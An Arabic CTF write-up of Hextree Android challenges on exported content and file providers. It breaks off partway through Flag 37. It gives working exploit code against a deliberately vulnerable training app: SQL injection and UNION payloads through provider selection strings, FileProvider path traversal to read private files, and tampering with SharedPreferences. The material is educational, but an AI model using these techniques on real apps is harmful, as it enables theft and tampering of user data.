

+++ 
date = '2025-07-30T00:55:36+03:00' 
draft = false 
title = 'تحديات HEX Tree Content & File providers' 
tags = ['ctf', 'Andorid', 'contnet provider', 'file provider', 'hextree']
+++

بما إننا هنتعامل مع قاعدة البيانات دي كتير، قولت ما نبصلها الأول عشان نفهم إيه اللي إحنا هنتعمل معاه:

### قاعدة البيانات

```java
public class FlagDatabaseHelper extends SQLiteOpenHelper {
    public static final String COLUMN_CONTENT = "content";
    public static final String COLUMN_ID = "_id";
    public static final String COLUMN_NAME = "name";
    public static final String COLUMN_TITLE = "title";
    public static final String COLUMN_VALUE = "value";
    public static final String COLUMN_VISIBLE = "visible";
    private static final String CREATE_TABKE_NOTE = "CREATE TABLE Note (_id INTEGER PRIMARY KEY AUTOINCREMENT, title TEXT NOT NULL, content TEXT NOT NULL );";
    private static final String CREATE_TABLE_FLAG = "CREATE TABLE Flag (_id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT NOT NULL, value TEXT NOT NULL, visible INTEGER NOT NULL DEFAULT 1);";
    private static final String DATABASE_NAME = "flag.db";
    private static final int DATABASE_VERSION = 1;
    public static final String TABLE_FLAG = "Flag";
    public static final String TABLE_NOTE = "Note";

    public FlagDatabaseHelper(Context context) {
        super(context, DATABASE_NAME, (SQLiteDatabase.CursorFactory) null, 1);
    }

    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onCreate(SQLiteDatabase sQLiteDatabase) {
        Log.i("FlagDatabaseHelper", "قاعدة البيانات اتعملت");
        sQLiteDatabase.execSQL(CREATE_TABLE_FLAG);
        sQLiteDatabase.execSQL(CREATE_TABKE_NOTE);
        sQLiteDatabase.execSQL("INSERT INTO Flag (name, value, visible) VALUES ('flag30', 'HXT{censored}', 1);");
        sQLiteDatabase.execSQL("INSERT INTO Flag (name, value, visible) VALUES ('flag31', 'HXT{censored}', 1);");
        sQLiteDatabase.execSQL("INSERT INTO Flag (name, value, visible) VALUES ('flag32', 'HXT{censored}', 0);");
        sQLiteDatabase.execSQL("INSERT INTO Note (title, content) VALUES ('secret', 'This is a secret note');");
        sQLiteDatabase.execSQL("INSERT INTO Note (title, content) VALUES ('flag33', 'HXT{censored}');");
    }

    @Override // android.database.sqlite.SQLiteOpenHelper
    public void onUpgrade(SQLiteDatabase sQLiteDatabase, int i, int i2) {
        sQLiteDatabase.execSQL("DROP TABLE IF EXISTS Flag");
        onCreate(sQLiteDatabase);
    }

```

من هنا نقدر نشوف أسماء الأعمدة وكام جدول عندنا

#### **هيكل قاعدة البيانات**

1. **اسم قاعدة البيانات**: `flag.db`
2. **الجداول**:

	-  الاول `Note` و الثاني `Flag` 

#### **مخطط جدول Flag**

|العمود|النوع|الوصف|
|---|---|---|
|`_id`|INTEGER (PK)|رقم تعريف تلقائي|
|`name`|TEXT|اسم الـ flag (مثلاً `flag30`, `flag31`)|
|`value`|TEXT|قيمة الـ flag (مثلاً `HXT{censored}`)|
|`visible`|INTEGER|إذا كان ظاهر ولا لأ (`1` = ظاهر, `0` = مخفي)|

#### **مخطط جدول Note**

|العمود|النوع|الوصف|
|---|---|---|
|`_id`|INTEGER (PK)|رقم تعريف تلقائي|
|`title`|TEXT|عنوان الملاحظة|
|`content`|TEXT|محتوى الملاحظة|

#### **البيانات المحملة مسبقاً**

##### **جدول Flag (الإدخالات الأولية)**

|`name`|`value`|`visible`|
|---|---|---|
|`flag30`|`HXT{censored}`|`1` (ظاهر)|
|`flag31`|`HXT{censored}`|`1` (ظاهر)|
|`flag32`|`HXT{censored}`|`0` (مخفي)|

##### **جدول Note (الإدخالات الأولية)**

|`title`|`content`|
|---|---|
|`secret`|`This is a secret note`|
|`flag33`|`HXT{censored}`|

_**دلوقتي يلا نجيب الـ flags بتاعتنا**_

### Flag 30

#### تحليل الكود

```xml
 <provider
    android:name="io.hextree.attacksurface.providers.Flag30Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag30"/>
```

بما إنه exported ومفيش أي permission بيحميه، نقدر نتصل بيه ونتفاعل معاه زي ما إحنا عايزين

```java
public class Flag30Provider extends ContentProvider {

// كتير من الـ مش متعملة فحذفتهم methods
	@Override 
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {

        if (!uri.getPath().equals("/success")) {
            return null;
        }
        Cursor query = this.dbHelper.getReadableDatabase().query(
		    FlagDatabaseHelper.TABLE_FLAG,  // اسم الجدول
		    strArr,                         // الأعمدة اللي عايز ترجعها (projection)
		    "name=? AND visible=1",         // شرط WHERE (فلتر)
		    new String[]{"flag30"},         // قيم الشرط (بتحل محل '?')
		    null, null, str2                // GroupBy, Having, SortOrder
		);
        query.setNotificationUri(getContext().getContentResolver(), uri);
        success(logHelper);
        return query;
    }
}
```

لما نبعت URI عشان نعمل query، بيشيك إذا الـ path هو `/success` ويرجع entries اللي ليها name `flag30` وهي `visible=1` يعني الـ SQL query بتبقى شكلها كده:

```sql
SELECT [strArr columns...] FROM flag_table WHERE name = 'flag30' AND visible = 1 ORDER BY [str2];
```

باستخدام الـ authority المعرف في الـ xml، الـ URI هيبقى `content://io.hextree.flag30/success`

#### الحل

في إصدارات Android الحديثة عشان تعامل مع provider لازم تحدد package الـ تطبيق ال فيه provider اللي عايز تعمله query

```xml
<queries>  
    <package android:name="io.hextree.attacksurface" />  
</queries>
```

ADB:

```shell
 adb shell content query --uri content://io.hextree.flag30/success
```

الناتج: `Row: 0 _id=1, name=flag30, value=HXT{XXXX-YYYYY-ZZZZ-c}, visible=1`

java:

```java
Uri uri = Uri.parse("content://io.hextree.flag30/success");
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString()); // النتيجة هتتسجل 
    } while (cursor.moveToNext());  
}
```

الكود ده بيطلب من app تاني (`io.hextree.flag30`) بيانات مخفية ويقرأ كل الصفوف والأعمدة من قاعدة البيانات بتاعته ويسجل النتائج.

### Flag 31

#### تحليل الكود

```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag31Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag31"/>
```

```java
public class Flag31Provider extends ContentProvider {
    public static final String AUTHORITY = "io.hextree.flag31";
    private static final int FLAGS = 1;
    private static final int FLAG_ID = 2;
    static {
        UriMatcher uriMatcher2 = new UriMatcher(-1);
        uriMatcher = uriMatcher2;
        uriMatcher2.addURI(AUTHORITY, "flags", 1);
        uriMatcher2.addURI(AUTHORITY, "flag/#", 2);
    }

    @Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        
        StringBuilder append = new StringBuilder("Flag31Provider.query('").append(uri.getPath()).append("'): ");
        
        UriMatcher uriMatcher2 = uriMatcher;
        SQLiteDatabase readableDatabase = this.dbHelper.getReadableDatabase();
        int match = uriMatcher2.match(uri);
        if (match == 1) {
            throw new IllegalArgumentException("FLAGS مش متعمل لسه: " + uri);
        }
        if (match == 2) {
            long parseId = ContentUris.parseId(uri);
            Log.i("Flag31", "FLAG_ID: " + parseId);
            if (parseId == 31) {
                LogHelper logHelper = new LogHelper(getContext());
                logHelper.addTag(uri.getPath());
                success(logHelper);
            }
            return readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, "name=? AND visible=1", new String[]{"flag" + parseId}, null, null, str2);
        }
    }
}
```

الـ provider بيحدد نوعين من أنماط URI:

- `content://io.hextree.flag31/flags` → يطابق `FLAGS` (كود `1`)
- `content://io.hextree.flag31/flag/#` → يطابق `FLAG_ID` (كود `2`)، حيث `#` هو رقم تعريف

يعني لو دخلنا id، المطابقة الثانية هتشتغل لو كان 31 فالـ Uri هيبقى شكله كده `content://io.hextree.flag31/flag/31`

#### الحل

ADB:

```shell
adb shell content query --uri content://io.hextree.flag31/flag/31                                
```

الناتج: `Row: 0 _id=2, name=flag31, value=HXT{1111-qqqqqq-xxxxx-zzzz}, visible=1`

Java

```java
Uri uri = Uri.parse("content://io.hextree.flag31/flag/31");  
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 32

#### تحليل الكود

```xml
 <provider
    android:name="io.hextree.attacksurface.providers.Flag32Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag32"
/>
```

نقدر نقسم كلاس الـ provider ده لأجزاء عشان نقدر نقراه أسهل

##### 1. استعلام Flag فردي (Match == 2)

```java
if (match == 2) {
    // استخراج ID من URI (مثلاً، content://.../flag/32 → ID=32)
    long parseId = ContentUris.parseId(uri);
    Log.i("Flag32", "FLAG_ID: " + parseId);
    
    // استعلام قاعدة البيانات لـ flag محدد
    return readableDatabase.query(
        FlagDatabaseHelper.TABLE_FLAG,  // اسم الجدول
        strArr,                        // الأعمدة المرجعة
        "name=? AND visible=1",        // flags الظاهرة فقط مع الاسم المطابق
        new String[]{"flag" + parseId},// البحث عن "flag32" إذا كان ID=32
        null, null, str2               // GroupBy, Having, OrderBy
    );
}
```

بيتعامل مع URIs زي `content://provider/flag/32` لما بيستخرج الرقم (32) ويدور على `flag32` بيرجع النتائج فقط لما `visible=1` (الـ flags المخفية مش هتظهر)

##### 2. استعلام Flags عام (Match == 1)

```java
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");

Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
    if (containsFlag32(query)) {
        success(logHelper);
        query.requery();
    }
    return query;
```

ده افتراضياً بيظهر كل الـ flags حيث `visible=1` ونقدر نضيف فلاتر إضافية من خلال معامل `str` وكمان عنده معالجة خاصة لـ flag32 اللي بتشغل success

##### 3. فاحص Flag32

```java
public boolean containsFlag32(Cursor cursor) {
        if (cursor == null) {
            return false;
        }
        int columnIndex = cursor.getColumnIndex(FlagDatabaseHelper.COLUMN_NAME);
        while (cursor.moveToNext()) {
            if ("flag32".equals(cursor.getString(columnIndex))) {
                return true;
            }
        }
        return false;
    }
```

بيسكان نتائج الاستعلام لأي صف اسمه "flag32" ويرجع true فقط إذا flag32 موجود وظاهر

**باختصار**:

ده كمان بيحدد نفس matchers من الـ flags اللي فاتت. method الـ `query()` نقدر نمشي فيه بطريقتين:

1. لاستعلامات Flag فردية (FLAG_ID, match == 2)
    
    - باستخراج الـ ID من الـ URI (مثلاً، `/flag/32` → ID 32) والاستعلام عنه مع `visible=1` ويرجع إذا لقى مطابقة
2. لاستعلام Flags عام (FLAGS, match == 1)
    
    - إنشاء query مع `visible=1` ثم إضافة أي معايير اختيار إضافية إذا توفرت وبعد تنفيذ الاستعلام، بيشيك إذا النتائج فيه "flag32" باستخدام `containsFlag32()`
    - إذا لقاه بيشغل success بتاعنا

#### الحل

المفتاح في الجزء الثاني لأنه بيبني الفلاتر للاستعلام (sql query) وياخد input مباشرة وده بيخليه عرضة لـ sql injection (Boolean based sql injection)

```java
String str3 = "visible=1" + (str != null ? " AND (" + str + ")" : "");
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str3, strArr2, null, null, str2);
        if (containsFlag32(query)) {
            success(logHelper);
            query.requery();
        }
        return query;
```

يعني

```sql
visible=1 AND ( أي حاجة) --الأصلي
visible=1 AND (1=1) OR (1=1) --شكل الـ payload بتاعنا
```

```java
Uri uri = Uri.parse("content://io.hextree.flag32/flags");  
Cursor cursor = getContentResolver().query(uri, null, "1=1) OR (1=1", null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 33_1

#### تحليل الكود

```xml
<provider
            android:name="io.hextree.attacksurface.providers.Flag33Provider1"
            android:enabled="true"
            android:exported="false"
            android:authorities="io.hextree.flag33_1"
            android:grantUriPermissions="true"/>
```

هنا مقدرش أعمله query مباشرة بس عندي URI permission اللي **بتدي permission مؤقت** لـ URIs محددة، حتى لو اللي بيطلب مش عنده صلاحية عادة.

```java
 void prepareDB(LogHelper logHelper) {
        ContentValues contentValues = new ContentValues();
        contentValues.put(FlagDatabaseHelper.COLUMN_CONTENT, logHelper.appendLog(Flag33Activity1.FLAG));
        this.dbHelper.getReadableDatabase().update(FlagDatabaseHelper.TABLE_NOTE, contentValues, "title=?", new String[]{"flag33"});
    }

    public boolean containsFlag33(Cursor cursor) {
        if (cursor == null) {
            return false;
        }
        boolean z = false;
        while (cursor.moveToNext()) {
            int i = 0;
            while (true) {
                if (i >= cursor.getColumnCount()) {
                    break;
                }
                if ("flag33".equals(cursor.getString(i))) {
                    z = true;
                    break;
                }
                i++;
            }
        }
        return z;
    }

```

الـ `prepareDB()` بياخد الـ flag الحقيقي (من `Flag33Activity1`) ويحدث entry الـ `flag33` في جدول Note بيه بس يخلي جدول Note رسمياً "مقفول" للاستعلامات؟! والـ `containsFlag33` بيبص في كل البيانات المرجعة لو لقى "flag33" في أي حتة، بيرجع true

```java
    public static final String AUTHORITY = "io.hextree.flag33_1";
    private static final int FLAGS = 1;
    private static final int NOTES = 2;

    static {
        UriMatcher uriMatcher2 = new UriMatcher(-1);
        uriMatcher = uriMatcher2;
        uriMatcher2.addURI(AUTHORITY, "flags", 1);
        uriMatcher2.addURI(AUTHORITY, "notes", 2);
    }

    @Override // android.content.ContentProvider
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        StringBuilder append = new StringBuilder("Flag33Provider1.query('").append(uri.getPath()).append("'): ");
        UriMatcher uriMatcher2 = uriMatcher;
        Log.i("Flag33Provider1", append.append(uriMatcher2.match(uri)).toString());
        SQLiteDatabase readableDatabase = this.dbHelper.getReadableDatabase();
        int match = uriMatcher2.match(uri);
        if (match != 1) {
            if (match == 2) {
                throw new IllegalArgumentException("الوصول لجدول Notes مش متعمل لسه");
            }
            throw new IllegalArgumentException("URI مش معروف: " + uri);
        }

        prepareDB(logHelper);
        Cursor query = readableDatabase.query(FlagDatabaseHelper.TABLE_FLAG, strArr, str, strArr2, null, null, str2);
        
        if (containsFlag33(query)) {
            success(logHelper);
        }
       
```

دلوقتي عندنا 2 طرق نقدر نمشي فيهم:

- لو طلبت "flags" (path `/flags`)، هتروح لجدول flags وتشوف محتواه
- لو طلبت "notes" (path `/notes`)، هتروح لقسم 2 (بس ده مقفول ومش متاح رسمياً)

وبعدين باقي الكود بيشيك إيه اللي بتطلبه (flags فقط) يعني (match !=1) ثم يشغل `prepareDB()` (اللي زي ما شرحنا فوق) يحضر جدول notes ويشغل الـ query بتاعك على جدول Flag لو لقى "flag33" في النتائج، بيشغل `success`

دلوقتي إزاي نتكلم معاه؟ باستخدام activity 31_1

```java
       Intent intent = getIntent();
        String stringExtra = intent.getStringExtra("secret");
        if (stringExtra == null) {
            if (intent.getAction() == null || !intent.getAction().equals("io.hextree.FLAG33")) {
                return;
            }
            intent.setData(Uri.parse("content://io.hextree.flag33_1/flags"));
            intent.addFlags(1);
            setResult(-1, intent);
            finish();
            return;
        }
        if (Flag33Provider1.secret.equals(stringExtra)) {
            this.f = new LogHelper(this);
            this.f.addTag("access-notes-table");
            this.f.addTag("flag33");
            checkStatus(this);
        }
    }
```

بيستلم intent ولو ليه action `"io.hextree.FLAG33"` والـ extra string بـ null بيضبط الـ Uri بـ `"content://io.hextree.flag33_1/flags"` وflag 1 اللي هو `FLAG_GRANT_READ_URI_PERMISSION`

#### الحل

يعني إيه اللي نقدر نعمله؟ نقدر نبعت intent بـ `startActivityForResult` ونستخدم SQLi injection بس المرة دي اسمها union attack لأننا عايزين نوصل لجداول تانية من قاعدة البيانات، ونستخدم الـ cursor بتاعنا عشان نجيب البيانات ونسجلها

```java
Intent intent = new Intent("io.hextree.FLAG33");  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag33Activity1"));  
startActivityForResult(intent,0);

@Override  
protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
    super.onActivityResult(requestCode, resultCode, data);  
    if (requestCode == 0) {  
        Log.d("flags", data.getData().toString());  
            //   where _id=2 union Select  
        Cursor cursor = getContentResolver().query(data.getData(), new String[]{"name", "value","visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
        if (cursor.moveToFirst()) {  
            do {  
                StringBuilder sb = new StringBuilder();  
                for (int i = 0; i < cursor.getColumnCount(); i++) {  
                    if (sb.length() > 0) sb.append(", ");  
                    sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
                }  
                Log.d("evil", sb.toString());  
            } while (cursor.moveToNext());  
        }  
    }
}
```

### Flag 33_2

#### تحليل الكود

```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag33Provider2"
	android:enabled="true"
	android:exported="false"
	android:authorities="io.hextree.flag33_2"
	    android:grantUriPermissions="true"/>
```

زي الـ flag اللي فات مقدرش أوصله بس component تاني مع الطلبات الصح يقدر يوصله وبصة على activity33_2 عنده المتطلبات الصح

```java
    String stringExtra = getIntent().getStringExtra("secret");
    if (stringExtra == null) {
	    Intent intent = new Intent();
	    intent.setAction("io.hextree.FLAG33");
	    intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
	    intent.addFlags(1);
	    startActivity(intent);
        return;
    }
```

ده بيعمل implicit intent مع action `"io.hextree.FLAG33"` وdata للـ provider الثاني

#### الحل

نفس الـ payload بتاع `flag33_1` بس هنعمل filter للـ action

```xml
<activity  
    android:name=".Providers"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.FLAG33" />  
        <category android:name="android.intent.category.DEFAULT" />  
        <data android:scheme="content" android:host="io.hextree.flag33_2" />  
    </intent-filter>
</activity>
```

```java
  
Intent intent_33 = getIntent();  
if (intent_33.getAction() != null & "io.hextree.FLAG33".equals(getIntent().getAction())) {  
    Cursor cursor = getContentResolver().query(intent_33.getData(), new String[]{"name", "value", "visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
    if (cursor.moveToFirst()) {  
        do {  
            StringBuilder sb = new StringBuilder();  
            for (int i = 0; i < cursor.getColumnCount(); i++) {  
                if (sb.length() > 0) sb.append(", ");  
                sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
            }  
            Log.d("evil", sb.toString());  
        } while (cursor.moveToNext());  
    }  
}
```

### Flag 34

#### تحليل الكود

```xml
 <activity
	android:name="io.hextree.attacksurface.activities.Flag34Activity"
	android:exported="true"/>
```

الـ activity مصدّر يعني نقدر نتفاعل معاه من الـ app بتاعنا

```java
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag34.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("file-provider");
            logHelper.addTag("flag34");
            Utils.writeFile(this, "flags/flag34.txt", logHelper.appendLog(FLAG));
        }
    }

```

لما يستلم intent بيشيك على string data تحت اسم `filename` ولو null، uri محدد مسبقاً لملف بيتستخدم `content://io.hextree.files/secret.txt` ولو فيه data، الـ uri هيتعمل مع الـ authority والاسم اللي دخلناه. بس إحنا عايزين إيه؟ الـ method اللي بتحضر الـ flag بتقترح إنها بتاخد الـ flag من مكان وتكتبه في `flags/flag34.txt`

#### الحل

لازم نوصل لـ `flags/flag34.txt` وعشان كده هنضيفه تحت `filename` وبما إن فيه result بيتحط فهنستخدم `startActivityForResult()`

```java
Intent intent = new Intent();  
intent.putExtra("filename","flags/flag34.txt"); // لو عايز secret ماتستخدمهوش  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag34Activity"));  
startActivityForResult(intent,1);

if (requestCode == 1) {  
        Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line ;  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
        }  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 35

#### تحليل الكود

```xml
 <provider
            android:name="io.hextree.attacksurface.providers.Flag35FileProvider"
            android:exported="false"
            android:authorities="io.hextree.root"
            android:grantUriPermissions="true">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/rootpaths"/>
        </provider>
```

الـ provider مش متاح نكلمه مباشر بس عنده uri permissions والـ authority بتاعه `io.hextree.root` وفيه paths محددة في مكان ما

```xml
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```

يعني الـ root directory (الملف الريئيسي اليبتدي التحرك منه) للـ provider ده هو الـ root directory `/` وله اسم  `root_files`

```xml
<activity
            android:name="io.hextree.attacksurface.activities.Flag34Activity"
            android:exported="true"/>
```

```java
  public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag35.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("flag35");
            logHelper.addTag("root-provider");
            Utils.writeFile2(this, "flag35.txt", logHelper.appendLog(FLAG));
        }
    }
}
```

ال activity بيتعامل مع مشاركة الملفات عبر FileProvider لما الأول بيشيك إذا intent extra اسمه "filename" كان موجود. لو آه، بيشغل `prepareFlag()` مع الـ filename ده، ينشئ URI للملف باستخدام FileProvider، ينشئ intent مع الـ URI ده، يحط flags، ويرجع result code بـ 0 (نجاح).

الـ `prepareFlag()` method بيشيك إذا الـ filename هو "flag35.txt" ولو الملف موجود. لو كده، بيسجل tags ويكتب flag في الملف.

لو مفيش filename اتقدم (stringExtra هو null) بيستخدم "secret.txt" افتراضياً، ينشئ URI للملف ده، ينشئ intent مع الـ URI ده، يحط flags، ويرجع result code بـ -1 (فشل أو default case).

 نقدر نبعت intent وهنا بيدور على `filename` وبعدين يحضر الـ flag في ملف `flag35.txt`

#### الحل

لو نشوف الـ uri اللي هيتستخدم للوصول لـ `secret.txt` 
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/secret.txt`

و نجرب طلب بـ `intent.putExtra("filename","flag35.txt")`
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/flag35.txt`

إحنا بندور جوا مجلد `files`؟ فعشان نخرج من الملف نقدر زي ما بنعمل عادة في أي terminal، ناخد خطوة لورا باستخدام `..`

```java
	Intent intent = new Intent();  
	intent.putExtra("filename","../flag35.txt"); // لو عايز secret ماتستخدمهوش  
	intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
	startActivityForResult(intent,1);
	
	if (requestCode == 1) {  
	        Log.d("Hextree","URI: "+ data.getData().toString());  
	    try {  
	        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
	        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
	        String line ;  
	        while ((line = reader.readLine()) != null) {  
	            Log.d("File", "[*]" + line);  
	        }  
	    } catch (FileNotFoundException e) {  
	        throw new RuntimeException(e);  
	    } catch (IOException e) {  
	        throw new RuntimeException(e);  
	    }  
	}
```

وبعدين اضغط done وشوف السحر



### Flag 36

#### تحليل الكود

```java
if (Flag36Preferences.getBoolean("solved", false)) {
            this.f.addTag(Flag36Preferences.class);
            success(this);
        } else {
            Log.i("Flag36", "not solved");
        }
```

لو الـ shared preferences اسمها `Flag36Preferences` ولو عندها قيمة اسمها `solved` محطوطة على `true` نجيب الـ flag بتاعنا بس إيه هو الـ shared preference ده؟

> [!info] الـ `SharedPreferences` هو object بيشاور على ملف فيه key-value pairs (مفتاح او علامه و القيمة البتدل عليها) وبيدي methods بسيطة عشان نقرأ ونكتب فيهم. كل ملف `SharedPreferences` بيتعامل معاه الـ framework ونقدر نخليه private أو  اي حد يستخدمة shared . و بيتحفظ بصيغة  xml 

... ماذا بعد؟

#### الحل

في flag35 مش بس عندنا permission للقراءة لا وكمان للكتابة، وبما إن الـ provider ده بيستخدم عنوان root نقدر نروح لمكان الـ shared preference ده ونفتح ونعدل الملف وبعدين لازم نقفل الـ app ونفتحه تاني عشان التغييرات تبان

```java
Intent intent = new Intent();  
intent.putExtra("filename","../shared_prefs/Flag36Preferences.xml"); // لو عايز secret ماتستخدمهوش  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
startActivityForResult(intent,2);

if (requestCode == 2) {  
  
    Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        StringBuilder stringBuilder = new StringBuilder();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line;  
  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
            if (line.contains("false")) {  
                Log.d("File", "[*] /* قوانين جديدة يا صاحبي *\\");  
                line = line.replace("false", "true");  
                Log.d("File", "[*]" + line);  
            }  
            stringBuilder.append(line).append("\n");  
        }  
        reader.close();  
  
        // كتابة المحتوى المعدل في الملف تاني  
        OutputStream outputStream = getContentResolver().openOutputStream(data.getData());  
        outputStream.write(stringBuilder.toString().getBytes());  
        outputStream.close();    
  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 37

#### تحليل الكود

```java
 @Override
protected void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    this.f = new LogHelper(this);
    
    Uri data = getIntent().getData();
    if (data == null) {
        return;
    }
    try (Cursor cursor = getContentResolver().query(data, null, null, null, null)) {
        if (cursor == null || !cursor.moveToFirst()) {
            return;
        }
        // استخراج metadata الملف
        String fileName = cursor.getString(cursor.getColumnIndex("_display_name"));
        long fileSize = cursor.getLong(cursor.getColumnIndex("_size"));
        
        this.f.addTag(fileSize);
        this.f.addTag(fileName);
        // شيك إذا كان الـ flag file الصح
        if (!"../flag37.txt".equals(fileName) || fileSize != 1337) {
            Log.i("Flag37", "اسم الملف '" + fileName + "' أو الحجم '" + fileSize + "' مش مطابق");
            return;
        }
        // قراءة محتوى الملف
        try (InputStream inputStream = getContentResolver().openInputStream(data);
             BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream))) {
            
            StringBuilder fileContent = new StringBuilder();
            String line;
            
            while ((line = reader.readLine()) != null) {
                fileContent.append(line);
            }

            this.f.addTag(fileContent.toString());

            if ("give flag".equals(fileContent.toString())) {
                success(this);
            } else {
                Log.i("Flag37", "محتوى الملف '" + fileContent + "' مش 'give flag'");
            }
        }
    } catch (Exception e) {
        Log.e("Flag37", "خطأ في معالجة الملف", e);
    }
}
```

هنا الـ activity بيجيب intent وياخد الـ URI اللي فيه ويستخدمه عشان يشغل provider، وبعدين يشيك إذا الملف اسمه "../flag37.txt" وحجمه بالضبط 1337 bytes لو true بيفتح input stream (طريق تقدر تستقبل بيه بيانات) عشان يقرأ الملف ويقرأ كل محتوى الملف في `StringBuilder` ويشيك إذا المحتوى بالضبط `"give flag"` لو مطابق، بيشغل  `success()`  ولو لأ، بيسجل إن المحتوى مش مطابق

#### الحل

هنا لازم ننشئ content provider بتاعنا مع المتطلبات وبعدين نضغط على activity الـ flag من الـ app

الـ Flag 37 activity بيعمل الفحوصات المحددة دي:

1. **بيعمل query لـ content provider** عبر الـ URI من الـ intent
2. **بيستخرج metadata** من الـ cursor: أعمدة `_display_name` و `_size`
3. **بيتأكد من اسم الملف** لازم يكون بالضبط `"flag37.txt/.."`
